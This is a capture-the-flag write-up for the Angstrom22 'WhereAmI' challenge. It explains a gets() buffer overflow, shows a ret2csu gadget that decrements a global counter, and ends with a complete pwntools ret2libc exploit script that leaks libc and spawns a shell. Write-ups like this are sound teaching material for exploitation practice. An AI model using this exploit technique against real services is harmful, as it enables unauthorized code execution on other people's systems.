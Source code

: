 <h2> Binary Exploitation </h2>

    - Chall Name: WhereAmI
     - CTF: Angstrom22

This challenge is basically just ret2libc but with a twist.

The catch is that there's a global variable counter that makes sure we don't get to call `main()` again but i bypassed that by decrementing the value stored in the global variable

Let's start shall we?

As usual we get the file type and protections enabled. The libc was also attached so i already patched it with `pwninit`.
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4b72c7e4-0051-4077-9f93-80380ab5eb4f)

So we're working with a x64 binary which is dynamically linked and not stripped

The only protection enabled is NX

I ran the binary to get an overview of what it does
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d19c5419-a02f-442c-a9e8-b936844ea098)

It receives our input then the program exists

Loading the binary up in Ghidra and looking at the main function shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3cc64162-dd05-41c9-83f6-874033724791)

```c

undefined8 main(void)

{
  char buffer [60];
  __gid_t egid;
  
  setbuf(stdout,(char *)0x0);
  egid = getegid();
  setresgid(egid,egid,egid);
  puts("I\'m so lost.");
  printf("Who are you? ");
  if (0 < counter) {
    exit(1);
  }
  counter = counter + 1;
  gets(buffer);
  puts("I hope you find yourself too.");
  return 0;
}
```

There's no other function aside that
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/90baa1c7-f43c-441b-981a-6d346fa634a1)

So concerning the main function here's what it does:
- Gets the current effective group id and sets the real user id to the value returned
- It checks if the `counter` which is a global variable is greater than `0` and if it is the program exits with return code of `1`
- If the program doesn't exit it will increment the counter by `1` and receive our input using `gets()` then finally return

The vulnerability is pretty obvious to spot since the usage of `gets()` leads to buffer overflow

What next?

At first I tried to leak libc using `puts()` and jump to the next instruction which tends to increment the counter 

It worked but after I provide input the program crashes?

Here's the code snippet I used
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/47cb4109-ca9d-4ee9-ac7c-9283be22ef29)

From debugging I saw that this was the issue
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/19b066da-b921-48f2-84a1-86006281bdd6)

```
 ► 0x7f7848980ad3 <gets+307>    mov    byte ptr [rbx], al

al = 0x61
rbx = 0x6161617261616131
```

We can see that it's meant to move the value of the rax register into the pointer of the rbx register

But in this case we've overwritten the value that's meant to be there making the program crash

At this point I was pretty stucked so I decided to take a look at the available rop gadgets

Looking at the gadgets shown from using `ropper` I couldn't make use of any of them

But when I used `ROPgadget` to take a look at the available gadgets I came across one that wasn't shown by `ropper`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f40a7cc8-b6d3-4b14-bea0-1d810ac3466c)

```
0x00000000004011dc : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
````

Looking at it we can add the value of the `ebx` register to `rbp-0x3d`

So let's say the counter address is stored in `rbp-0x3d` and the `ebx` register has value of `-1`

When the instruction is executed the value stored in the counter will be decremented to 0

I then decided to make use of this because it's a good primitive 

But first we need to control `ebx & rbp`

I didn't see any gadgets that allowed me to control it directly
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5fe94fe3-8750-4fe7-92f3-aff30ad855c5)

Luckily there was `__libc_csu_init`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/75450f77-1d44-4759-8ce0-db1f58859ac5)

This makes `ret2csu` viable and therefore giving us control over the `ebx & rbp` registers
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57cf7bf4-95d7-43df-8397-de6656014811)

So the goal is to first call `csu_pop == 0x00000000004012f6`

Then the following will be stored:

```
add rsp, 0x8 == padding (fill with 0)
pop rbx == 0xffffffff (-1)
pop rbp == counter + 0x3d
pop r12 == 0x0
pop r13 == 0x0
pop r14 == 0x0
pop r15 == 0x0
```

And finally we can just do the standard ret2libc attack

Here's my finally script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from warnings import filterwarnings

# Set up pwntools for the correct architecture
exe = context.binary = ELF('whereami_patched')
elf = exe
libc = exe.libc

filterwarnings("ignore")
context.log_level = 'info'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *main+162
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def init():
    global io

    io = start()

def solve():
    offset = 72
    pop_rdi = 0x0000000000401303 # pop rdi; ret; 
    ret = 0x000000000040101a # ret; 

    csu_pad_pop = 0x00000000004012f6 # add rsp, 8; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15
    dec = 0x00000000004011dc # add dword ptr [rbp - 0x3d], ebx ; nop ; ret

    payload = flat({
        offset: [
            csu_pad_pop,
            0x0,
            0xffffffff,
            elf.sym['counter'] + 0x3d,
            0x0,
            0x0,
            0x0,
            0x0,
            dec,
            pop_rdi,
            elf.got['puts'],
            elf.plt['puts'],
            ret,
            elf.sym['main']
        ]
    })

    io.sendlineafter('?', payload)
    io.recvuntil('too.\n')
    puts = u64(io.recv(6).ljust(8, b'\x00'))
    libc.address = puts - libc.sym['puts']
    info("libc base: %#x", libc.address)

    sh = libc.address + 0x1b45bd
    system = libc.sym['system']

    info("sh: %#x", sh)
    info("system: %#x", system)

    payload = flat({
        offset: [
            pop_rdi,
            sh,
            ret,
            system

        ]
    })

    io.sendline(payload)

    io.interactive()


def main():
    
    init()
    solve()

if __name__ == '__main__':
    main()
```





